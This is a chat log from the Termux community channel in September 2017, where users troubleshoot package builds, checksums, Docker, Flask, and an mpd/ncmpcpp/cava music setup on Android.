2017-09-08 23:12:26	gitter	(Auxilus) https://github.com/termux/termux.github.io/pulls/30

2017-09-08 23:12:36	gitter	(Auxilus) And https://github.com/termux/termux.github.io/pulls/31

2017-09-08 23:13:10	gitter	(Auxilus) https://github.com/termux/termux.github.io/pull/30

2017-09-08 23:40:30	xstreamx	Hello

2017-09-08 23:41:30	live_the_dream	hello

2017-09-09 00:08:45	u093	hi

2017-09-09 01:12:31	g093	Command "python setup.py egg_info" failed with error code 1 in /data/data/com.termux/files/usr/tmp/pip-build-m5yp_3h_/pyside/

2017-09-09 04:15:00	gitter	(infernix) If i use su and then use ctrl-c, it kills the su shell and i get dropped back into the user shell

2017-09-09 04:16:07	gitter	(infernix) I had that before on an older androud version but don't recall how i fixed that

2017-09-09 04:16:23	gitter	(infernix) Any ideas? I'm currently on oreo with magisk

2017-09-09 10:59:01	gitter	(Auxilus) @fornwall whats up whith all these build fails?

2017-09-09 11:43:30	TheFox	hi

2017-09-09 11:44:37	gitter	(Auxilus) Hey!

2017-09-09 11:45:13	gitter	(Auxilus) TheFox : are you related with game called Miragerealms?

2017-09-09 11:46:38	TheFox	???

2017-09-09 11:47:41	gitter	(Auxilus) Just askin, developer of the game goes by alias TheFox

2017-09-09 13:03:16	gitter	(Ismael-VC) hello everyone!

2017-09-09 13:03:37	gitter	(Ismael-VC) I have finally installed docker in my windows pc

2017-09-09 13:03:56	gitter	(Ismael-VC) and downloaded the docker image

2017-09-09 13:04:43	gitter	(Auxilus) Nice man, you  can now start compiling!

2017-09-09 13:05:25	gitter	(Ismael-VC) Thanks!

2017-09-09 13:06:21	gitter	(Ismael-VC) I'll try to report issues in my attempt to build julia here and in the julia gitter

2017-09-09 13:06:40	gitter	(Ismael-VC) https://gitter.im/JuliaLang/julia

2017-09-09 13:07:51	gitter	(Ismael-VC) The documentation instructions are

2017-09-09 13:08:34	gitter	(Ismael-VC) clone termux-packages -> setup docker -> run scripts (from the host)

2017-09-09 13:09:11	gitter	(Ismael-VC) But I didn't use the scripts to setup the docker image and istead just pulled it from dockerhub

2017-09-09 13:10:52	gitter	(Ismael-VC) My first question is. Should I clone this repo, inside the running docker container? In order to be able to access the pkgbuilds or are this scripts in the image already?

2017-09-09 13:13:42	gitter	(Auxilus) No i guess, you clone it outside then run the docker using some script ( forgot the name) which is in scripts dir

2017-09-09 13:13:44	gitter	(Ismael-VC) The default dir is `/home/builder/termux-packages`

2017-09-09 13:14:42	gitter	(Auxilus) I dont really have used docker ever..

2017-09-09 13:15:54	gitter	(Ismael-VC) Is there a way I can run this scripts from windows? I have tried git bash with is mingw but it doesn't work, I see you guys have some windows instructions, but it's not clear to me

2017-09-09 13:17:15	gitter	(Auxilus) I think you need linux..

2017-09-09 13:17:17	gitter	(Ismael-VC) @Auxilus I'm new to docker also, but I only have windows installed now. I wonder if docker can be nested...

2017-09-09 13:17:20	gitter	(Auxilus) So vmware should do..

2017-09-09 13:18:16	gitter	(Ismael-VC) The thing is I enabled  hyper-v and now cant use other hypervisors :feelsgood:

2017-09-09 16:13:42	mcveri	Hello Guys

2017-09-09 16:14:48	mcveri	I want to know is there a way to run a bash script with the copied text share option?

2017-09-09 16:37:34	gitter	(sdrausty) @Auxilus any suggestions for FAQ?

2017-09-09 16:37:55	gitter	(sdrausty) https://wiki.termux.com/wiki/FAQ

2017-09-09 17:44:40	mcveri	Holys.

2017-09-09 17:44:49	mcveri	You are awesome

2017-09-09 19:27:55	rods-tab3	re wiki:  take out references to duckgo search -- useless distraction

2017-09-09 19:53:34	g093	rids-tab3v ask goigle to make human readable liks please

2017-09-09 19:53:45	g093	goigle *Google

2017-09-09 19:53:51	g093	liks

2017-09-09 19:53:55	g093	*links

2017-09-09 19:55:11	g093	Googke used too, and does not give as great results as 10+ years ago

2017-09-09 19:55:31	g093	and that is because Google had competition

2017-09-09 19:55:39	termuxfan	where is nginx config file?

2017-09-09 19:56:07	g093	rods-tab3v other than Google, which search engines do you prefer?

2017-09-09 19:56:50	termuxfan	nvm

2017-09-09 19:56:53	g093	man nginx

2017-09-09 19:57:01	g093	termuxfan

2017-09-09 19:57:33	termuxfan	Thanks

2017-09-09 19:58:13	g093	ur welcome termuxfan

2017-09-09 20:00:10	rods-tab3	g0 - the point was that someone using termux maybe knows how to do a search -- and the references to any search engine do not add informative help

2017-09-09 20:00:55	g093	rods-tab3: maybe add how to search th Internet to FAQ?

2017-09-09 20:02:11	g093	https://wiki.termux.com/wiki/Talk:FAQ

2017-09-09 20:02:32	rods-tab3	How could someone want to use termux and NOT know how to do  a search ?

2017-09-09 20:04:00	rods-tab3	btw we now refer to it as 'GooLog' after the latest scandels  ::--))   bbl

2017-09-09 20:04:53	g093	it appears that many people scratch their heads when told to press enter/return 

2017-09-09 20:05:15	g093	like 

2017-09-09 20:05:21	g093	for example

2017-09-09 20:05:25	g093	man

2017-09-09 20:05:33	g093	what's info

2017-09-09 20:10:28	termuxfan	should i create alias in the usr/etc or do i just create a new bash profile in the my home directory?

2017-09-09 20:11:11	g093	where is twitter in Contact @ https://wiki.termux.com/wiki/Main_Page

2017-09-09 20:12:22	g093	termuxfan: u actually ave #s options

2017-09-09 20:12:44	termuxfan	huh?

2017-09-09 20:13:34	g093	man bash

2017-09-09 20:14:23	g093	`/bashrc`

2017-09-09 20:20:24	g093	$ play-audio Megan\ Leavey\ Trailer\ #1\ \(2017\)\ Kate\ Mara\ Drama\ Movie\ HD-BhACgAuE88k.webm

2017-09-09 20:20:52	termuxfan	got it working :)

2017-09-09 20:20:59	g093	:)

2017-09-09 22:24:16	rods-tab3	https://mobile.twitter.com/termux?lang=en

2017-09-09 22:32:51	gitter	(sdrausty) rods-tab3: can this be added to Contacts at the wiki?

2017-09-09 22:34:29	rods-tab3	ssounnds like a good place for it imho

2017-09-09 22:35:17	rods-tab3	also ''differences from linus'' is mentioned twice in the main wiki

2017-09-09 22:36:38	rods-tab3	also re shells:  my termux came with dash shell, and you get the mksh shell by doing a fail-safe session

2017-09-09 22:48:56	gitter	(suryapoo) Guys

2017-09-09 22:49:04	gitter	(suryapoo) Is this code okay?..

2017-09-09 22:49:13	gitter	(suryapoo) 1 from flask import Flask

2017-09-09 22:49:13	gitter	(suryapoo)  2 app= Flask(__name__)

2017-09-09 22:49:13	gitter	(suryapoo)  3 @app.route('/')

2017-09-09 22:49:13	gitter	(suryapoo) [full message: https://gitter.im/termux/termux?at=59b4a826177fb9fe7ea071d4]

2017-09-09 22:50:13	gitter	(suryapoo) This one :

2017-09-09 22:50:17	gitter	(suryapoo) from flask import Flask

2017-09-09 22:50:17	gitter	(suryapoo) app= Flask(__name__)

2017-09-09 22:50:17	gitter	(suryapoo) @app.route('/')

2017-09-09 22:50:17	gitter	(suryapoo) [full message: https://gitter.im/termux/termux?at=59b4a867319100804e178e64]

2017-09-09 22:50:37	gitter	(suryapoo) When i run it with python..it runs ok

2017-09-09 22:50:56	gitter	(suryapoo) But the browser doesnt load the page

2017-09-09 22:51:40	g093	what are you trying to do @suryapoo ?

2017-09-09 22:52:17	g093	start with python... flack?

2017-09-09 22:53:01	g093	flack *flask

2017-09-09 22:59:02	gitter	(suryapoo) Yes

2017-09-09 23:01:35	gitter	(suryapoo) It's working perfectly fine when I run it with python

2017-09-09 23:01:49	gitter	(suryapoo) But it doesn't load in the browser..the browser gets stuck

2017-09-09 23:17:54	g093	i just installed flask @suryapoo

2017-09-09 23:18:07	g093	what should i do next

2017-09-09 23:24:03	gitter	(suryapoo) Okay

2017-09-09 23:24:30	gitter	(suryapoo) Now write the above code

2017-09-09 23:30:24	gitter	(suryapoo) But when there is a bold word ..type __name__

2017-09-09 23:30:56	gitter	(suryapoo) (Double underscore)name(Double underscore)

2017-09-09 23:31:00	gitter	(suryapoo) Same for main

2017-09-09 23:31:31	gitter	(suryapoo) For some unknown reason gitter is converting double underscore to bold

2017-09-09 23:32:17	gitter	(suryapoo) Can't install ruby gem thin

2017-09-09 23:32:31	gitter	(suryapoo) Even with use-system-libraries

2017-09-09 23:38:05	gitter	(suryapoo) $ gem install thin -- --use-system-libraries

2017-09-09 23:38:05	gitter	(suryapoo) Building native extensions with: '--use-system-libraries'

2017-09-09 23:38:05	gitter	(suryapoo) This could take a while...

2017-09-09 23:38:05	gitter	(suryapoo) [full message: https://gitter.im/termux/termux?at=59b4b399162adb6d2e866a13]

2017-09-09 23:38:39	g093	@suryapoo if you post it i'll copy and paste it to help u out

2017-09-09 23:44:37	g093	This could take a while...

2017-09-09 23:45:32	g093	4 gems installed

2017-09-09 23:45:58	g093	Usage: thin [options] start|stop|restart|config|install

2017-09-09 23:47:59	gitter	(suryapoo) @TermuxBot

2017-09-09 23:48:06	gitter	(suryapoo) How did u install thin

2017-09-09 23:57:58	g093	$ gem install thin -- --use-system-libraries

2017-09-10 03:18:01	gitter	(Auxilus) How do I convert `.tex`  to `.pdf` though cl?

2017-09-10 05:39:16	gitter	(suryapoo) hi peeps..can i install react on termux?

2017-09-10 05:39:16	gitter	(suryapoo)

2017-09-10 08:49:26	gitter	(refacto) Is there any port knocker for termux?

2017-09-10 08:49:51	gitter	(refacto) Is there any port knocker on termux?

2017-09-10 08:50:22	gitter	(refacto) (One that supports sending udp and tcp packets)

2017-09-10 08:52:17	gitter	(Auxilus) You mean something like nmap?

2017-09-10 08:52:22	gitter	(Auxilus) Cz we got nmap..

2017-09-10 08:58:41	BrainDamage	netcat?

2017-09-10 08:59:38	gitter	(Auxilus) BrainDamage

2017-09-10 10:09:54	BrainDamage	is it possible to have termux-boot not spawn an interactive termux session?

2017-09-10 11:15:13	TheFox	hi everybody!

2017-09-10 11:15:13	TheFox	:-D

2017-09-10 11:15:17	TheFox	what about msf for termux

2017-09-10 11:15:20	TheFox	???

2017-09-10 11:28:35	TheFox	F#CK OFF B#STARDS!1

2017-09-10 11:33:41	g093	@Auxilus https://sdrausty.github.io/pages/tit tex in termux

2017-09-10 11:34:43	gitter	(Auxilus) fatal: could not read Username for 'https://github.com': terminal prompts disabled

2017-09-10 11:34:43	gitter	(Auxilus) package github.com/garyburd/go-websocket/websocket: exit status 128

2017-09-10 11:34:43	gitter	(Auxilus) make: *** [Makefile:7: deps] Error 1

2017-09-10 11:35:06	gitter	(Auxilus) TheFox : we have msf in termux

2017-09-10 12:55:24	gitter	(graw-prog) Is it possible to access the termux android api by including a header file in a program instead of using tge binary?

2017-09-10 14:20:31	u0_a164	hey!

2017-09-10 14:20:36	u0_a164	@fornwall

2017-09-10 14:20:49	u0_a164	why travis passing is failing ?

2017-09-10 14:24:36	fornwall	u0_a164: it seems to be running out of disk space

2017-09-10 14:25:08	u0_a164	there is PR open which seems to fix it..

2017-09-10 14:26:00	fornwall	auxilus: which one?

2017-09-10 14:26:25	auxilus	@fornwall how do I get sha256 directly ( what i do know is to get it from travis logs )

2017-09-10 14:27:03	auxilus	@fornwall https://github.com/termux/termux-packages/pull/1399 this1

2017-09-10 14:27:35	fornwall	auxilus: the best way to get the sha256 is probably to setup a local development setup using docker

2017-09-10 14:28:05	auxilus	it just kinda hurts when my pr gets closed due to missing sha256 🙁

2017-09-10 14:28:24	gitter	(Auxilus) @fornwall okay..

2017-09-10 14:29:23	auxilus	also ive 2 open PRs on termux.github.io

2017-09-10 14:29:33	fornwall	auxilus: bump the revision and try to build, which will cause a message like 'Wrong checksum for %s: Expected: .. Actual: ...'

2017-09-10 14:29:37	auxilus	just added couple of things thr..

2017-09-10 14:30:41	auxilus	yes , thats why i was doing .. i commit without TERMUX_SHA256 then take it from travis logs and commit again to add it in build script

2017-09-10 14:32:09	fornwall	auxilus: ah, I meant that it probably makes sense to setup a local development if possible, which would be a lot quicker than to wait for travis to get the checksum

2017-09-10 14:32:54	auxilus	👍i'll try to get it ..

2017-09-10 14:36:33	auxilus	is there any way get checksum using curl ?

2017-09-10 14:37:18	auxilus	i see travis uses curl to download files , and checksum shows up ri8 below it

2017-09-10 14:53:42	gitter	(Auxilus) @fornwall found a way to do that,

2017-09-10 14:54:09	gitter	(Auxilus) Now you dont have to make another commit, I'll add checksum..

2017-09-10 14:55:22	fornwall	auxilus: great!

2017-09-10 14:56:15	fornwall	another option is to tag PR:s that are not ready to merge with '[WIP] ' in the start of the PR title

2017-09-10 14:56:23	fornwall	to signal that the PR is not yet ready to merge

2017-09-10 14:57:20	gitter	(Auxilus) https://github.com/termux/termux-packages/pull/1425 is ready to merge, see if it builds on your box

2017-09-10 14:57:35	gitter	(Auxilus) @fornwall yes, ik WIP convention

2017-09-10 15:00:58	gitter	(fornwall) in #1425, do you really need to override `termux_step_configure`, `termux_step_make` and `termux_step_make_install`?

2017-09-10 15:02:18	gitter	(Auxilus) I don't know much about build scripts yet ( still learning ) is there an easy way to do that?

2017-09-10 15:02:19	gitter	(Auxilus) I mean

2017-09-10 15:02:39	gitter	(Auxilus) Ive seen some scripts with no extra functions..

2017-09-10 15:02:59	gitter	(Auxilus) Should just remove those functions?

2017-09-10 15:05:16	gitter	(fornwall) yes, if they are not required for the build to work there is no point having them. the [build-package](https://github.com/termux/termux-packages/blob/master/build-package.sh) script provides the default versions of these functions

2017-09-10 15:05:39	gitter	(Auxilus) Ok ill remove those functions

2017-09-10 15:06:29	gitter	(fornwall) and the base variant of `termux_step_configure` basically runs configure if there is a configure file, and else does nothing, so it there is no configure file as in mktorrent it doesn't do anything

2017-09-10 15:06:58	gitter	(Auxilus) Should TERMUX_PKG_DEPENDS be there?

2017-09-10 15:07:21	gitter	(fornwall) likewise, `termux_step_make` basically just runs `make`, and `termux_step_make_install` runs `make install`, so if you're fine with that you don't need to override them

2017-09-10 15:07:36	gitter	(Auxilus) Okay..

2017-09-10 15:08:10	gitter	(fornwall) `TERMUX_PKG_DEPENDS` is only for runtime dependencies, that all users need to have installed to run the program. and you can probably run `mktorrent` without `clang` or `make`, so you shouldn't have those in TERMUX_PKG_DEPENDS

2017-09-10 15:09:25	gitter	(fornwall) `clang`, `make`, `pkg-config` and many other development tools are already provided by the android toolchain that termux uses for cross compilation, so you don't need any build dependencies for those

2017-09-10 15:10:11	gitter	(Auxilus) Ive updated build script.. Check if it works..

2017-09-10 15:11:15	gitter	(Auxilus) @fornwall

2017-09-10 15:11:22	gitter	(Auxilus) Will this work? https://github.com/termux/termux-packages/pull/1400

2017-09-10 16:02:40	gitter	(fornwall) @Auxilus rbnacl-libsodium, that seems to be intended to be installed as a gem (in general we try to package up things that can be installed with ruby gems&python pip and similar)

2017-09-10 17:00:58	pocketYoda	Hi! - I would love to experiment with the aalib on Termux. Is there already a (alternative) package for it?

2017-09-10 17:02:32	pocketYoda	I currently don't know of any alternative Termux repositories…

2017-09-10 17:32:19	g093	pocketYoda: https://wiki.termux.com/wiki/Package_Management#Community_Repositories

2017-09-10 17:33:52	pocketYoda	Ah, nice! Thabk you,g093 - Didn't find it before - and will look into it

2017-09-10 17:48:58	meretrix	How difficult would it be to get a desktop version of firefox running in termux with XSDL or VNC?

2017-09-10 17:49:28	meretrix	Or would using something like GNURoot be better?

2017-09-10 18:05:08	gitter	(AshleyNykiel) Created a patch and testing the patch failed with the following error?

2017-09-10 18:05:08	gitter	(AshleyNykiel)

2017-09-10 18:05:08	gitter	(AshleyNykiel) patch Makefile Makefile.patch

2017-09-10 18:05:08	gitter	(AshleyNykiel) [full message: https://gitter.im/termux/termux?at=59b5b712614889d475dffc84]

2017-09-10 18:06:37	pocketYoda	meretrix: there are VNC-ckients on GooglePlay as well as on F-droid

2017-09-10 18:07:17	pocketYoda	*clients

2017-09-10 18:07:41	meretrix	pocketYoda: ok?

2017-09-10 18:07:59	meretrix	I would still need to run firefox in some kind of linux environment..

2017-09-10 18:08:47	meretrix	(I'd be running firefox locally, if that wasn't clear.)

2017-09-10 18:10:11	pocketYoda	you need a vnc-server on the machine with firefox insralled - and a vnc-client-app on yor andrroid-device

2017-09-10 18:10:42	pocketYoda	you do not need a terminal for thid imho

2017-09-10 18:11:07	meretrix	You're not understanding.. I want to run firefox on my android tablet, not some other machine.

2017-09-10 18:12:40	pocketYoda	what do you wannt to do with vnc?

2017-09-10 18:13:34	meretrix	Android doesn't use X11, so I need a way to interact with X11 applications.

2017-09-10 18:14:06	meretrix	The two options are use the XSDL client or a VNC client.

2017-09-10 18:14:24	meretrix	I think some people have used raw framebuffers, but I don't want to go that route.

2017-09-10 18:17:07	pocketYoda	interesting. sadly I can't say much more… - except that there already is an apk on googleplay for firefox

2017-09-10 18:17:09	BrainDamage	meretrix: it's doable, just a fuckload of deps to compile

2017-09-10 18:17:31	BrainDamage	all the x and gui toolkit

2017-09-10 18:27:45	meretrix	BrainDamage: Ok, thanks.  Probably easier to just use GNURoot Debian then.  I should be able to just install a precompiled firefox package then.

2017-09-10 21:03:55	g093	$ play-audio youtube/Megan\ Leavey\ Trailer\ #1\ \(2017\)\ Kate\ Mara\ Drama\ Movie\ HD-BhACgAuE88k.webm

2017-09-10 21:04:05	g093	dvr

2017-09-10 21:04:11	g093	in mi pokey

2017-09-10 21:04:16	g093	eow

2017-09-10 21:04:32	g093	pokey *pokket

2017-09-10 21:04:49	g093	eow *WOW

2017-09-10 21:06:29	g093	$ play-audio youtube/Megan\ Leavey\ Trailer\ #1\ \(2017\)\ Kate\ Mara\ Drama\ Movie\ HD-BhACgAuE88k.webm x8

2017-09-10 21:15:10	g093	https://wiki.termux.com/images/7/74/REX.png

2017-09-10 21:18:06	g093	https://wiki.termux.com/wiki/DVR

2017-09-10 21:20:28	g093	wants

2017-09-10 21:43:18	g093	https://duckduckgo.com/?q=megan+leavey

2017-09-10 21:45:24	g093	http://m.imdb.com/title/tt4899370/

2017-09-10 21:46:08	g093	megan leavey

2017-09-10 21:47:06	g093	$ youtube-dl https://m.youtube.com/watch?v=ItKphABwrJ0

2017-09-10 21:47:19	g093	1+GB!

2017-09-10 21:47:52	g093	1+GB *101+MB

2017-09-10 22:01:11	g093	$ play-audio "Megan Leavey - Trailer-IE4EwTvX8Vw.mp4"

2017-09-10 22:05:40	g093	youtube-dl https://m.youtube.com/watch?v=fzYv_asHYmY

2017-09-10 22:06:01	g093	if u want dstory

2017-09-10 22:06:17	g093	DVR

2017-09-10 22:09:49	g093	$ play-audio "2012_05_13 Cpl. Leavey and Sgt. Rex honored-fzYv_asHYmY.mkv"

2017-09-10 22:14:38	g093	$ play-audio youtube/Grateful\ Dead\ -\ Drums\ -\ 10_31_80\ -\ Radio\ City\ Music\ Hall\ \(OFFICIAL\)-hqvjgFmSvho.mp

2017-09-10 22:16:43	g093	^C

2017-09-10 22:16:48	g093	$ play-audio youtube/Ground\ Control\ to\ Major\ Tom-AFks9A9TCF0.mkv

2017-09-10 22:17:06	g093	dvr

2017-09-10 23:03:03	g093	$ play-audio youtube/Uriah\ Heep\ -\ Lady\ In\ Black\ Live-PZ2MGb5CpHM.mkv

2017-09-10 23:04:07	g093	https://wiki.termux.com/wiki/DVR

2017-09-10 23:29:11	g093	$ d youtube/

2017-09-10 23:29:11	g093	5.4G    youtube/

2017-09-10 23:30:15	g093	$ play-audio youtube/Led\ Zeppelin\ -\ Stairway\ To\ Heaven\ \(NOT\ LIVE\)\ \(Perfect\ Audio\)-IS6n2Hx9Ykk.mkv

2017-09-10 23:56:28	g093	$ play-audio youtube/Jimi\ Hendrix\ -\ Hey\ Joe\ \(Legendado\)\ HD-5eJz0kdOrLw.mk

2017-09-10 23:58:45	g093	http://www.foxnews.com/food-drink/2017/09/10/hurricane-irma-leaves-cruise-passengers-stranded-with-unlimited-booze-and-food.html

2017-09-11 00:02:26	g093	bles

2017-09-11 00:11:08	g093	webcam https://m.youtube.com/watch?v=Bj_eZ5dlBkI built on device in thanks to Termux, and published

2017-09-11 00:12:14	g093	webcam *from webcam at https://www.esrl.noaa.gov/gmd/obop/spo/livecamera.html and similar

2017-09-11 00:12:34	g093	in *and

2017-09-11 00:35:50	g093	Mehr als Linux in deiner Tasche

2017-09-11 00:37:30	g093	Termux ist mehr als Linux in deiner Tasche

2017-09-11 00:39:27	g093	Termux ist ein DVR und vieles mehr.

2017-09-11 02:36:56	frumpylava	g093: What even is that ^ Do you just occasionally paste your clipboard into here?

2017-09-11 02:45:23	g093	frumpylava: ?

2017-09-11 02:46:15	g093	flumpylava: sorry its not swiss german

2017-09-11 02:46:53	g093	couldn't find swiss german at translate.google.com

2017-09-11 02:47:27	frumpylava	g093: Since 5 hours ago you post random text and links every few minutes.

2017-09-11 02:47:44	g093	excuse me

2017-09-11 02:47:59	g093	if you think its random

2017-09-11 02:48:05	g093	your mistaken

2017-09-11 02:48:18	frumpylava	g093: I understand german perfectly well, but I still can't decipher what it all means. Is it a question? Do you need help with somethong?

2017-09-11 02:48:18	g093	and yes i do post

2017-09-11 02:48:42	g093	making Termux mainstream

2017-09-11 02:48:46	g093	can u help

2017-09-11 02:50:50	g093	i post

2017-09-11 02:51:42	g093	sometimes i delete, other times i don't

2017-09-11 02:52:51	g093	Its good the build isn't failing through travis, isn't it frumpylava?

2017-09-11 02:53:18	g093	if i got a reply

2017-09-11 02:53:43	g093	maybe there would be dialog

2017-09-11 02:53:47	g093	maybe

2017-09-11 02:53:58	frumpylava	g093: hmm... I've never used travis. But it's good that it works.

2017-09-11 02:54:23	g093	its great packeges is building once, more

2017-09-11 02:54:53	g093	where do all the old packeges go frumpylava?

2017-09-11 02:55:31	frumpylava	g093: Do you mean old versions?

2017-09-11 02:55:56	frumpylava	Because afaik only few packages have been removed.

2017-09-11 02:56:28	g093	btw frumpylava do u like any of the play-audios posted

2017-09-11 02:56:45	g093	yes old versions

2017-09-11 02:56:53	g093	like last years

2017-09-11 02:57:00	g093	last months

2017-09-11 02:57:12	g093	and so forth

2017-09-11 02:57:20	frumpylava	g093: hmm... I don't know. I guess they get deleted.

2017-09-11 02:57:27	g093	Where do they go?

2017-09-11 02:57:33	g093	null?

2017-09-11 02:57:45	g093	all ou wirk

2017-09-11 02:57:45	live_the_dream	the great null in the sky

2017-09-11 02:57:48	g093	null?

2017-09-11 02:57:58	g093	wirk *work

2017-09-11 02:58:18	frumpylava	g093: I still don't understand what what you want with the play-audios, but in general I prefer mpv to play media in termux, as it supports seeking and other important features.

2017-09-11 02:58:42	g093	no live_the_dream /dev/null

2017-09-11 02:59:17	g093	frumpylava: i dont need deamon to hear music

2017-09-11 02:59:57	frumpylava	g093: mpv != mpd. Mpv isn't a daemon. It's just a better play-audio.

2017-09-11 03:00:10	g093	i would love to integrate cava effect into play-audio -option

2017-09-11 03:00:43	g093	play-audio enter

2017-09-11 03:00:50	g093	repetative

2017-09-11 03:00:54	g093	boring

2017-09-11 03:01:00	g093	i love it

2017-09-11 03:01:30	frumpylava	g093: just give mpv a try: mpv musicfile.mp3

2017-09-11 03:01:56	g093	mp3?

2017-09-11 03:02:14	g093	wbout others?

2017-09-11 03:02:14	frumpylava	g093: or anything. mpv supports all media formats.

2017-09-11 03:02:57	frumpylava	g093: You can even play video if you specify --vo=tct

2017-09-11 03:03:11	g093	ok

2017-09-11 03:04:03	g093	beautiful

2017-09-11 03:04:07	g093	slow

2017-09-11 03:04:11	g093	and

2017-09-11 03:04:34	g093	beautiful thank you frumpylaa

2017-09-11 03:05:27	g093	mpv +cava frumpylava?

2017-09-11 03:07:08	frumpylava	g093: Not possible at the moment I think. cava only supports mpd, pulseaudio and alsa, but pulsaudio and alsa are disabled in termux's cava. Maybe alsa could work? You could try it if you compiled cava yourself with the appropriate options.

2017-09-11 03:08:35	g093	its ok

2017-09-11 03:09:35	frumpylava	even with all that, I doubt it would work https://github.com/karlstav/cava#from-alsa-loopback-device-tricky

2017-09-11 03:10:42	g093	so does cava do anything?

2017-09-11 03:10:47	g093	if not

2017-09-11 03:10:57	g093	dpkg --purge cava

2017-09-11 03:11:16	g093	it loads

2017-09-11 03:11:18	g093	and

2017-09-11 03:12:09	g093	no music no graph 

2017-09-11 03:12:30	frumpylava	It works with mpd.

2017-09-11 03:13:10	g093	mpd > and

2017-09-11 03:13:34	g093	how does it work with mpd frumpylava?

2017-09-11 03:14:13	g093	exception: bind to '0.0.0.0:6600' failed (continuing anyway, because binding to '[::]:6600' succeeded): Failed to bind socket: Address already in use

2017-09-11 03:14:38	frumpylava	Install mpd. start mpd. for convenience, install and start ncmpcpp. By default it loads music from /sdcard/Music, so put music there. Play music. start cava

2017-09-11 03:15:03	g093	alls installed

2017-09-11 03:15:58	g093	ncmpcpp: Connection refused

2017-09-11 03:16:06	frumpylava	start mpd

2017-09-11 03:16:44	g093	ncmpcpp won't accept ^C

2017-09-11 03:16:51	frumpylava	q

2017-09-11 03:16:54	g093	i started mpd

2017-09-11 03:17:06	g093	q works

2017-09-11 03:17:52	frumpylava	try starting mpd with mpd --no-daemon

2017-09-11 03:17:56	g093	u0_a93   16057  0.0  0.4 105652  8400 ?        Ssl  03:12   0:00 /data/data/com.termux/files/usr/libexec/mpd

2017-09-11 03:20:46	g093	still ncmpcpp: Connection refused

2017-09-11 03:21:50	frumpylava	does mpd --no-daemon output anything?

2017-09-11 03:23:32	g093	im glad play-audio 2001/2001\ Space\ Odyssey\ -\ Blue\ Danube-muPNlnm_i44.mkv works

2017-09-11 03:24:35	g093	$ mpd --no-daemon

2017-09-11 03:24:35	g093	exception: bind to '0.0.0.0:6600' failed (continuing anyway, because binding to '[::]:6600' succeeded): Failed to bind socket: Address already in use

2017-09-11 03:24:35	g093	output: No 'AudioOutput' defined in config file

2017-09-11 03:24:35	g093	output: Attempt to detect audio output device

2017-09-11 03:24:35	g093	output: Attempting to detect a sles audio device

2017-09-11 03:24:35	g093	output: Successfully detected a sles audio device

2017-09-11 03:24:46	live_the_dream	g093: can you stop spamin

2017-09-11 03:25:06	g093	hold on you asked a question

2017-09-11 03:25:08	live_the_dream	it doesn;t use 6600

2017-09-11 03:25:29	g093	frumpy did

2017-09-11 03:25:33	live_the_dream	we only hace access to portd over 8000

2017-09-11 03:25:44	g093	it diesnt work :(

2017-09-11 03:25:58	g093	mpd thumbbs down

2017-09-11 03:26:14	g093	why advertise something that dont wirk?

2017-09-11 03:26:19	frumpylava	g093: mpd should communicate via socket anyway. Did you change any settings??

2017-09-11 03:27:11	g093	look if i answer you ill get acusef of spamming play-audio works play-audio null works better

2017-09-11 03:29:41	g093	live_the_dream not speaking and once in a while, "Youre spamming!"

2017-09-11 03:30:16	g093	frumpy and i  WERE DIAGNOSING mpd

2017-09-11 03:30:23	frumpylava	g093: Do you have a ~/.mpd/mpd.conf? If so, delete it and try again.

2017-09-11 03:30:25	g093	in Termux

2017-09-11 03:31:54	g093	done

2017-09-11 03:32:31	g093	it says connected to browse, but doesnt show nothin n music

2017-09-11 03:32:56	frumpylava	Do you have any music in /sdcard/Music?

2017-09-11 03:33:33	g093	mudic isnt populated

2017-09-11 03:35:19	frumpylava	Where is your music stored?

2017-09-11 03:37:28	g093	music is populated @ /sdcard/Music ncmpcpp doesnt display whats there

2017-09-11 03:39:10	frumpylava	Can you press "2" in ncmpcpp. It should show the Browse: window.

2017-09-11 03:39:18	g093	ok

2017-09-11 03:40:07	frumpylava	Does it show your music now?

2017-09-11 03:41:44	g093	added to.playlist 2z a cool trick frumpylava

2017-09-11 03:42:03	g093	no cava?

2017-09-11 03:42:08	g093	no *now

2017-09-11 03:42:19	g093	3?

2017-09-11 03:43:09	frumpylava	Go to "7" and enable vizualizer output. It should now already show a visializer in "8". If this works, cava will work too.

2017-09-11 03:44:18	g093	7 3 option 

2017-09-11 03:44:41	g093	8 no visualiser

2017-09-11 03:45:17	g093	cava 0.6.0

2017-09-11 03:46:16	frumpylava	can you run "mpc enable 3" instead?

2017-09-11 03:46:25	g093	ok cava cool frumpylava! way cool!

2017-09-11 03:47:02	g093	this should be added maybe to FAQ

2017-09-11 03:47:33	g093	Thany you! got cava going wow

2017-09-11 03:47:50	frumpylava	g093: Not to FAQ, but a Page about mpd + ncmpcpp + mpc + cava should be made.

2017-09-11 03:48:09	g093	ok

2017-09-11 03:50:50	frumpylava	Most of it is descriped in mpd.conf though. So we'd only really need to explain that you need to cp $PREFIX/etc/mpd.conf ~/.mpd/mpd.conf

2017-09-11 03:53:52	g093	ill try to write it from this log and history file

2017-09-11 03:55:01	g093	number keys are important in mcnpcpp

2017-09-11 03:56:20	g093	frumpylava: i pressed q and its still playn

2017-09-11 03:56:58	g093	therez no ^C to press

2017-09-11 03:57:09	frumpylava	g093: Yes. the daemon is what plays your music. You can also control it with mpc: mpc stop, mpc play

2017-09-11 03:57:23	frumpylava	or launch ncmpcpp and p

2017-09-11 03:59:15	frumpylava	you can do pretty much everything with mpc as well, which is very cool. mpc add Electronic/Daft\ Punk/;mpc play.

2017-09-11 03:59:31	g093	wow maybe you should write Music_in_Termux regarding mpd + ncmpcpp + mpc + cava

2017-09-11 03:59:58	frumpylava	yeah maybe. it's quite a big topic

2017-09-11 04:00:01	g093	usually its play-audio null

2017-09-11 04:00:16	g093	i like to hear whats around me

2017-09-11 04:01:03	frumpylava	There's also, https://github.com/Neo-Oli/termux-mpd-notifications that I made, which is cool.

2017-09-11 04:02:16	g093	flumpylava: i like your clock its cool

2017-09-11 04:04:26	frumpylava	what clock?

2017-09-11 04:05:04	g093	https://glow.li/tech/2016/01/16/compiling-tty-clock-on-termux.html

2017-09-11 04:06:03	g093	minimal perfect

2017-09-11 04:06:20	frumpylava	g093: that is now available from apt.

2017-09-11 04:06:27	frumpylava	apt install tty-clock

2017-09-11 04:06:44	g093	its cooler building it

2017-09-11 04:07:03	g093	its great its available too

2017-09-11 06:27:50	gitter	(Auxilus) frumpylava : u Neo-Oli?

2017-09-11 06:30:29	frumpylava	@Auxilus: yes.

2017-09-11 06:31:13	gitter	(Auxilus) 👍

2017-09-11 06:31:36	gitter	(Auxilus) How do use mpd to play music?

